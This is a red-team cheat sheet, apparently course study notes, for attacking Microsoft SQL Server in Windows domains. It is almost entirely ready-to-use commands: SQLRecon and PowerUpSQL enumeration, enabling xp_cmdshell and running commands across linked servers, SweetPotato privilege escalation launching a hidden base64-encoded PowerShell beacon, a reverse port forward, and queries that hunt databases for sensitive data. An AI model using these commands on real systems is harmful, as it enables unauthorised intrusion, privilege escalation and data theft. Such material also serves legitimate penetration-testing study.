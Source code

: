 SQLRecon
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:links`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lquery /l:[target] /c:"[query]"`

Crawl SQL Server Links
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:llinks /l:[target]`
crawl recursively: `powershell Get-SQLServerLinkCrawl -Instance "[host],[port]"`

Check xp_cmdshell
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lquery /l:[target] /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"`

**Note:** xp_cmdshell can’t be enabled through **OpenQuery**, only through **RPC Out** which is not enabled by default. If it is enabled,
`EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target]`
`EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target]`

Command Execution
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lxpcmd /l:[target] /c:"[command]"`
[[#Command Execution → Beacon]]
#### MS SQL Privilege Escalation
`execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges`

on beacon,
`rportfwd 8080 127.0.0.1 80`

on target,
use payload local_x64.ps1
[[#PowerShell Payload (base64)]]

`execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc [base64]"`
`connect localhost 4444`
#### Data Extraction
*Raw Queries*
Tables: `SELECT * FROM information_schema.tables`
Columns: `SELECT column_name from information_schema.columns WHERE table_name="[table]"`
Data: `SELECT [columns] FROM dbo.[table]`
Data Sample: `SELECT TOP 5 [columns] FROM dbo.[table]`

Search Keywords
`powershell Get-SQLColumnSampleDataThreaded -Keywords "[words (comma separated)]" -SampleSize 5 | select instance,database,column,sample | ft -autosize`
#### MS SQL Copy & Paste
`powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1`

search servers: `powerpick Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`

search SPNs: `execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns`
search SQL users: `powerpick Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }`
search links: `powerpick Get-SQLServerLinkCrawl -Instance "[host],[port]"`
